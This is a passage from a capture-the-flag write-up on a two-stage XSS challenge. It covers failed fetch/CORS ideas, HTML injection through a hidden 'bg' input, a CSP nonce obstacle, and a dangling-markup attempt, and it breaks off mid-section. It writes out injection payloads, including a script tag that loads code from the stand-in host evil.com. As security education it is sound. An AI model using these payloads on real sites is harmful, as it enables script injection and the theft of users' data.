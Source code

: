```
All that seems reasonable. In addition, we can easily set `location.href` to jump to stage 2, so let's jump ahead to stage 2. And this where all the trouble begins.

The objective for stage 2 is clear enough: the flag is in the middle of the page and we want to leak this from the admin. But the solution for it is anything but. Here we explore our thought process.

### Idea 1 - fetch the entire page externally
Since we have full javascript access in Stage 1, why don't we just use some kind of AJAX get / XMLHttpRequest / fetch to simply get the contents of Stage 2 into a string? Then we can leak this string to our own server (let's call this http://evil.com).

Turns out that CORS doesn't allow this. At best we can use `fetch` to send a request, but can only expect an opaque (blank) response. So this idea doesn't work unfortunately.

### Idea 2 - non-javascript HTML injection
Well, it does seem like we'll have to inject some code/javascript into stage 2 after all, so first thing to do is find an attack vector that lets us enter some text into the HTML source. This one's not quite as straightforward as Stage 1, but it shouldn't take too long to discover how `background.js` works: it simply sends a POST request to itself with the body `bg=red` (or green/tree), and when the page is reloaded you get an hidden input element that looks like this:
```
<input type="hidden" id="bg" value="red">
```

This seems simple enough. In particular, we can easily close the quotation mark and angle bracket, and insert arbitrary HTML, e.g. setting bg=`"><script>alert(1)</script>` would give
```
<input type="hidden" id="bg" value=""><script>alert(1)</script>">
```

That makes its way into the HTML source just fine, but now we're hit with a different problem, as reported by Chrome:
> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-kk3VoGafsG2whnkRZ4DPjZu7IBY=' 'unsafe-inline' 'strict-dynamic'". Note that 'unsafe-inline' is ignored if either a hash or nonce value is present in the source list.

In plain english, this means that we need a nonce to run our script. However, this nonce changes on each reload so it's impossible for us to inject the correct nonce beforehand.

#### Idea 2a - use an existing nonce
Actually, the nonce does turn up on the next line as in:
```
<input type="hidden" id="bg" value="red">
<script nonce="kk3VoGafsG2whnkRZ4DPjZu7IBY=">
```

So if we manage to make inject out own `<script` tag that consume everything up to the nonce, we could in fact inject some javascript! So a dangling markup injection, e.g. something like
```
<input type="hidden" id="bg" value=""><script src="http://evil.com/evil.js"
<script nonce="kk3VoGafsG2whnkRZ4DPjZu7IBY=">
```
would work because the second `<script` just becomes an attribute and is ignored. However, in practice we were unable to get rid of the closing `">` at the end of the first line. We tried:
- Quotes (of various types). They either swallowed too much or not enough.
- Block comments, like `<!--` or `<![CDATA`. Again, didn't quite work.
- We were hoping to get cause some kind of malformed character encoding to reject the `">`, but didn't find any success here.

While we're not 100% convinced there isn't a successful exploit these lines, we weren't able to find it, so decided to abandon this line of thought.

#### Idea 2b - consume the rest of the page into some kind of object

```